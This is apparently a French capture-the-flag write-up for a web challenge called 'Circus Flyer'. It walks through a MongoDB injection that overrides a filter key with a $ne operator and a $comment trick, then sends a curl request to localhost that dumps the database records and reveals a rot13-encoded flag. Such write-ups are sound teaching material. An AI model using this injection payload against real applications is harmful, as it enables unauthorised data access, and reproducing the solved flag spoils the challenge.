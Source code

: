 # Circus Flyer

## Write-up

En visitant le site, on remarque des boutons permettant de changer les couleurs de la page.

En regardant le code source, on remarque qu'une requête est faite au serveur pour récupérer les couleurs, et on peut voir qu'un objet est retourné.

```json
{
    "_id": "66aaa2488bebc41cd65f143b",
    "name": "circus-red",
    "hex": "#FF4500"
}
```

La clé `_id` fait penser à MongoDB, on peut donc essayer de faire une injection.

On voit que la requête est au format `/color?name=...` et que le code en JavaScript s'attend à recevoir un tableau.

On pourrait donc imaginer un filtre pour récupérer toutes les couleurs :

```sh
# /color?name={"$ne":null}
/color?name=%7B"ne":null%7D
```

Sauf que cela nous donne une erreur. En analysant les données que l'on envoie, on remarque que l'on envoie une chaîne de caractères, ce qui suggère que le serveur ajoute des guillemets autour de notre chaîne.

Le serveur construit donc un filtre ayant le format suivant :

```
{ "name": "$notre_filtre" }
```

Comme on construit un objet, il est possible d'écraser une clé en envoyant un objet avec la même clé.

Nous aurions donc ceci :

```sh
# /color?name=","name":"{"$ne":null}"
# /color?name=","name":%7B"$ne":null%7D
{  "name": "", "name": { "$ne": null }" }
```

Le problème est qu'il nous reste un guillemet à fermer. On peut dire que c'est un commentaire :

```sh 
# /color?name=","name":"{"$ne":null}","$comment":""
# /color?name=","name":%7B"$ne":null%7D,"$comment":"
{ "name": "", "name": { "$ne": null }, "$comment": "" }
```

On peut donc récupérer toutes les couleurs en envoyant cette requête :

```sh
$ curl 'http://localhost:3000/color?name=","name":%7B"$ne":null%7D,"$comment":"' | jq
```

Résultat:

```json
[
  {
    "_id": "66aaa2488bebc41cd65f143b",
    "name": "circus-red",
    "hex": "#FF4500"
  },
  {
    "_id": "66aaa2488bebc41cd65f143c",
    "name": "clown-nose-red",
    "hex": "#DC143C"
  },
  {
    "_id": "66aaa2488bebc41cd65f143d",
    "name": "tent-yellow",
    "hex": "#FFD700"
  },
  {
    "_id": "66aaa2488bebc41cd65f143e",
    "name": "ringmaster-blue",
    "hex": "#1E90FF"
  },
  {
    "_id": "66aaa2488bebc41cd65f143f",
    "name": "acrobatic-purple",
    "hex": "#8A2BE2"
  },
  {
    "_id": "66aaa2488bebc41cd65f1440",
    "name": "performer-pink",
    "hex": "#FF69B4"
  },
  {
    "_id": "66aaa2488bebc41cd65f1441",
    "name": "elephant-gray",
    "hex": "#A9A9A9"
  },
  {
    "_id": "66aaa2488bebc41cd65f1442",
    "name": "lion-mane-orange",
    "hex": "#FFA500"
  },
  {
    "_id": "66aaa2488bebc41cd65f1443",
    "name": "juggler-green",
    "hex": "#32CD32"
  },
  {
    "_id": "66aaa2488bebc41cd65f1444",
    "name": "tightrope-turquoise",
    "hex": "#40E0D0"
  },
  {
    "_id": "66aaa2488bebc41cd65f1445",
    "name": "LgpPkEpSo3",
    "hex": "synt-zbatbvffbzntvp"
  }
]
```

On remarque `synt-...` dans un hex, ce qui est un rot-13. On peut donc le décoder et retrouver le flag.

## Flag

`flag-mongoissomagic`

